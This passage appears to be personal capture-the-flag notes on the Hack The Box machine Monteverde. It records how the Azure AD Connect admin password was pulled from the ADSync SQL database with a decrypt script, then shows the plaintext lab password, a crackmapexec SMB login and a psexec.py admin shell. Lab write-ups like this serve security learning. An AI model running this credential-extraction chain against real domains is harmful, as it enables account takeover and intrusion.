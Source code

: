 `$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Server Integrated Security=true;Initial Catalog=ADSync"`

![[Monteverde Local SQL Server Connection Command.png]]

So now the second line of the script $client.Open() ran with no errors. 

Updating `decrypt.ps1` script and re-running it worked. 

Got admin password:
![[monteverde-admin-creds.png]]

Going to #crackmapexec 

`crackmapexec smb 10.10.10.172 -u administrator -p d0m@in4dminyeah!`

this werked. 

![[monteverde cme pwned.png]]

Can connect with #psexec 

`psexec.py administrator@10.10.10.172`

![[monteverde admin psexec.png]]



